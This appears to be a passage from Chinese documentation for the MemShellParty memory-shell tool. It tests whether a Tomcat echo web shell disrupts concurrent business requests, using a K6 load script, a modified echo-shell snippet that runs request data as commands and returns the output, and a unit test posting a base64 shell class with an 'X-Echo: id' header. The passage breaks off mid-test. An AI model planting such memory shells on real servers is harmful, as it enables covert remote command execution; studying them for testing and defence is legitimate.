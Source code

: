 MemShellParty 2.0 已发布，欢迎使用~。

## 额外的测试

RequestGroupInfo 中拿到的 processors 是 Tomcat 整个生命周期所有的 RequestInfo 对象，其中也包含其他业务请求，当业务在高并发环境下做回显马利用，会不会有修改其他业务请求回显的风险，导致业务行为中断。

测试方法，编写 K6 压测脚本，10 线程并行压测业务接口，并断言响应码为 200，调整回显马代码，回显成功时修改 response.statusCode 为 201，在压测过程中，发送回显马利用，如果有影响，压测报告中会有不是 200 的响应结果。**结论是当前回显马并不会影响正常业务**。

压测脚本：k6test.js

```js
import http from 'k6/http';
import {check, sleep} from 'k6';

export const options = {
    rps: 4500,
    vus: 10,
    duration: '5m',
};

export default function () {
    const res = http.get('http://localhost:8082/app/test');
    check(res, {
        'status is 200': (r) => r.status === 200,
    });
    sleep(1);
}

```

回显马调整：

```java
if (data != null && !data.isEmpty()) {
    PrintWriter writer = (PrintWriter) invokeMethod(response, "getWriter", null, null);
    try {
        writer.write(run(data));
    } catch (Throwable e) {
        e.printStackTrace(writer);
    }
    invokeMethod(response, "setStatus", new Class[]{Integer.TYPE}, new Object[]{201}); // 这儿设置新的状态码
    writer.flush();
    writer.close();
    return;
}
```

新写一个单测，用于回显马利用：

```java
public class EchoTest {
    @Test
    @SneakyThrows
    void test() {
        String url = "http://localhost:8082/app";
        String content = DetectionTool.getBase64Class(TomcatEcho.class);
        RequestBody requestBody = new FormBody.Builder()
                .add("data", content)
                .build();
        Request request = new Request.Builder()
                .header("Content-Type", "application/x-www-form-urlencoded")
                .header("X-Echo", "id")
                .url(url + "/b64").post(requestBody)
                .build();
        try (Response response = new OkHttpClient().newCall(request).execute()) {
```